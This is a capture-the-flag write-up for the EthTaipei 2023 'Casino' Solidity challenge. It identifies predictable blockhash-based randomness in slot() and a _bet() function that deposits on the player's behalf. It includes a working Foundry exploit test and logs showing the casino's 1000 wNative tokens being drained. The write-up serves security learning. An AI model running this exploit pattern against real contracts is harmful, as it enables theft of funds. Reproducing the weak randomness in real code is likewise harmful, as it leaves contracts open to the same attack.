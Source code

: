 # EthTaipei CTF 2023 - Casino
- Scope  
    - Casino.sol  
    - WNative.sol
- Tools
    - [Foundry](https://github.com/foundry-rs/foundry)

# Findings

### Vulnerability Details
1. `slot()` has poor randomness vulnerability and the result can be calculated
2. `_bet()` deposits the token for you if you do not have enough tokens
```diff
-1 function slot() public view returns (uint256) {
        unchecked {
            uint256 answer = uint256(blockhash(block.number - 1)) % 1000;
            uint256[3] memory slots = [(answer / 100) % 10, (answer / 10) % 10, answer % 10];
            if (slots[0] == slots[1] && slots[1] == slots[2]) {
                if (slots[0] == 7) {
                    return 100;
                } else {
                    return 10;
                }
            } else if (slots[0] == slots[1] || slots[1] == slots[2] || slots[0] == slots[2]) {
                return 3;
            } else {
                return 0;
            }
        }
    }

function _bet(address token, uint256 amount) internal {
        require(isAllowed(token), "Token not allowed");
        CasinoToken cToken = CasinoToken(token);
        try cToken.bet(msg.sender, amount) {}
        catch {
            cToken = CasinoToken(_tokenMap[token]);
-2            deposit(token, amount);
            cToken.bet(msg.sender, amount);
        }
    }
```

### Impact/Proof of Concept
1. Manually tested and block.number 4 returns slot of multiplier 3
2. Call `play()` with an amount (uint256(1000e18) / 3 + 1) that will win us 1000e18 wNative tokens, even though we don't have enough tokens deposited, the casino will help us to deposit for the bet
3. Call `withdraw()` and drain the casino's wNative tokens
```diff
function test_Exploit() public {
        // 1. Manually tested and block.number 4 returns slot of multiplier 3
        // 2. Call play() with an amount (uint256(1000e18) / 3 + 1) that will win us 1000e18 wNative tokens
        // 3. Call withdraw() and drain the casino's wNative tokens

        WrappedNative wToken = base.wNative();
        vm.roll(4);
        uint256 slot = casino.slot();
        console.log("slot: ", slot);
        console.log("blockNumber: ", block.number);
        console.log("my beforeWNative: ", wToken.balanceOf(address(this)) / 1e18);
        console.log("casino beforeWNative: ", wToken.balanceOf(address(casino)) / 1e18);

        require(slot > 0, "Slot == 0");
        
        casino.play(wNative, uint256(1000e18) / 3 + 1); // +1 is because 333e18 * 3(slot) = 999e18 wNative tokens only. Hence we need to +1 so we are able to withdraw and burn 1000e18
        casino.withdraw(wNative, 1000e18);
        console.log("my afterWNative: ", wToken.balanceOf(address(this)) / 1e18);
        console.log("casino afterWNative: ", wToken.balanceOf(address(casino)) / 1e18);
        base.solve();
    }
```

Results:
```diff
[PASS] test_Exploit() (gas: 8937393460516843958)
Logs:
  blockNumber:  4
  slot:  3
  my beforeWNative:  0
  casino beforeWNative:  1000
  my afterWNative:  1000
  casino afterWNative:  0
```
